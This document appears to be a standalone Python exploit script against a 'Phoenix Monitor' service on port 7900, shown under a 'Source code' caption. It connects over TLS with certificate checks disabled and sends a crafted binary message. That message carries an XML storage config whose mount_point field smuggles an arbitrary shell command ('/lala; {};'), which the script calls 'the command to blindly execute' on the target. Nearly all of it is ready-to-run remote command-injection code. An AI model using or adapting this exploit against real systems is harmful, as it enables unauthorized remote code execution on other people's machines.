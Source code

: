 #!/usr/bin/python3
import argparse
import socket
import struct
import ssl

payload = """<TEST_STORAGE type="nfs">
    <server_ip>127.0.0.1</server_ip>
    <mount_point>/lala; {};</mount_point>
</TEST_STORAGE>
"""

def send_command(target: str, port: int, payload: str):
    c = ssl.create_default_context()
    c.check_hostname = False
    c.verify_mode = ssl.CERT_NONE
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        with c.wrap_socket(s, server_hostname=target) as ss:
                ss.connect((target, port))

                msg = b''
                msg += struct.pack('<I', 81)
                msg += struct.pack('<I', len(payload))
                msg += struct.pack('<I', 1075724911)
                msg += struct.pack('<I', 0)
                msg += payload.encode()
                print(f'[*] Sending:\n{payload}')

                ss.sendall(msg)
                print(f'[+] Sent!')
               
                d = ss.recv(1024)
                print(f'[+] Recevied: {d}')


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='The IP address of the target', required=True)
    parser.add_argument('-p', '--port', help='The port of the Phoenix Monitor service', type=int, default=7900)
    parser.add_argument('-c', '--command', help='The command to blindly execute', required=True)
    args = parser.parse_args()

    send_command(args.target, args.port, payload.format(args.command))
